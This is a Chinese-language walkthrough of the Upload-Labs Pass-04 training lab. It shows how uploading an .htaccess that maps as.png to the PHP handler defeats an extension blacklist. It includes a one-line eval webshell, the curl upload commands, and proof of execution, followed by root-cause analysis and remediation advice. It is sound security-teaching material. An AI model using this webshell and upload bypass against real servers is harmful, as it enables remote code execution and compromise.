


Upload-Labs Pass-04：利用 .htaccess 重新映射脚本处理器
Pass-04 的扩展名黑名单没有拦截 .htaccess，同时上传后的原始文件名会被直接保存。利用这一点，可以先上传目录级 Apache 配置，将特定图片文件交给 PHP 处理器，再上传只包含 PHP 代码的图片文件，最终在图片访问路径上获得 PHP 代码执行。
一、实验信息
| 项目 | 内容 |
|---|---|
| 靶场 | Upload-Labs |
| 关卡 | Pass-04 |
| 目标 | http://127.0.0.1:8081/Pass-04/index.php |
| 漏洞类型 | 上传目录可写入 Apache 配置，脚本处理器被重新映射 |
| 上传字段 | upload_file |
| 配置文件名 | .htaccess |
| 载荷文件名 | as.png |
| 验证结果 | 图片路径被 Apache 当作 PHP 执行 |
二、功能观察
页面要求上传一个 webshell，但上传控件提示选择图片。Pass-04 的校验重点是扩展名黑名单，并未限制文件内容必须真的是图片。

查看源码后，可以提取出与本关相关的处理逻辑：
$deny_ext = array(".php", ".php5", ".php4", ".php3", ".php2", ...);
$file_name = trim($_FILES['upload_file']['name']);
$file_ext = strtolower(strrchr($file_name, '.'));
if (!in_array($file_ext, $deny_ext)) {
$img_path = UPLOAD_PATH . '/' . $file_name;
move_uploaded_file($_FILES['upload_file']['tmp_name'], $img_path);
}这里有两个关键事实：
- 黑名单没有包含
.htaccess，因此配置文件能够进入上传目录。 - 程序使用客户端提供的文件名保存文件，没有随机重命名，也没有禁止覆盖目录配置文件。
三、环境前提
该方法依赖 Apache 的目录级配置能力。Web 服务器必须实际读取 .htaccess，且对应目录允许使用 SetHandler 所需的配置覆盖权限。在 Apache 中，目标目录通常需要启用类似下面的配置：
<Directory /path/to/upload-labs>
AllowOverride All
Require all granted
</Directory>.htaccess。如果靶场使用 php -S 启动，即使上传了正确配置，图片文件仍会按静态文件返回，不能据此判断载荷本身有误。四、漏洞利用
先在本地新建文件名恰好为 .htaccess 的文件，写入下面的配置：
<FilesMatch "^as\.png$">
SetHandler application/x-httpd-php
</FilesMatch>FilesMatch 对目录中的文件名进行正则匹配。当请求的文件名匹配 as.png 时，Apache 不再按普通图片处理，而是交给 application/x-httpd-php 处理器。
随后准备名为 as.png 的载荷：
<?php @eval($_POST['pass']); ?>按以下顺序上传：
- 上传文件名为
.htaccess的配置文件。 - 确认上传成功且文件名没有被重命名。
- 上传文件名为
as.png的 PHP 载荷。 - 访问
http://127.0.0.1:8081/upload/as.png，确认文件由 PHP 解析。
也可以使用等价请求直接完成两步上传。注意第一条请求通过 filename=.htaccess 明确指定目标文件名：
curl.exe -sS -F "upload_file=@.htaccess;filename=.htaccess" \
-F "submit=上传" \
"http://127.0.0.1:8081/Pass-04/index.php"
curl.exe -sS -F "upload_file=@as.png;filename=as.png" \
-F "submit=上传" \
"http://127.0.0.1:8081/Pass-04/index.php"为了得到可观察、无副作用的执行证据，本次验证向 as.png 提交固定 PHP 语句：
curl.exe -sS -X POST \
--data-urlencode 'pass=echo "PASS04_EXEC_OK";' \
"http://127.0.0.1:8081/upload/as.png"响应正文为：
PASS04_EXEC_OK
<?php ... ?> 源码，而是出现了 PHP 执行后的固定字符串，说明 .htaccess 已改变解析方式，as.png 能被服务器当作脚本执行。五、漏洞根因
根因不是图片扩展名本身能够执行，而是应用允许不可信文件进入一个允许目录级配置的 Web 目录。攻击链包含两个缺失的控制：
- 上传程序没有拒绝用于控制目录行为的配置文件。
- Web 服务器允许上传目录中的配置覆盖处理器映射。
因此，扩展名黑名单只检查了 PHP、JSP、ASP 等脚本后缀，却没有覆盖“能改变解析规则的配置文件名”。最终结果是 .png 仍保持图片外观，但其处理入口已经被重定向到 PHP。
六、修复建议
- 使用服务端扩展名白名单，并由服务端生成随机文件名和固定安全后缀。
- 禁止上传以点开头的隐藏文件，明确拦截
.htaccess、.user.ini等配置类文件。 - 将上传目录放到 Web 根目录之外，避免上传内容参与服务器配置解析。
- 对 Apache 上传目录设置
AllowOverride None，并在 Web 服务器层关闭脚本执行。 - 同时校验文件头和实际内容；图片应重新解码和编码后再保存。
七、复盘
Pass-04 绕过的关键不是寻找一个能被 PHP 直接执行的新后缀，而是修改服务器对原有后缀的解释。排查时也要先确认服务器确实会读取 .htaccess：文件名必须准确，配置内容必须非空，Apache 还必须允许相应的目录覆盖权限；三者缺一，最后都会表现为图片路径仍返回静态源码。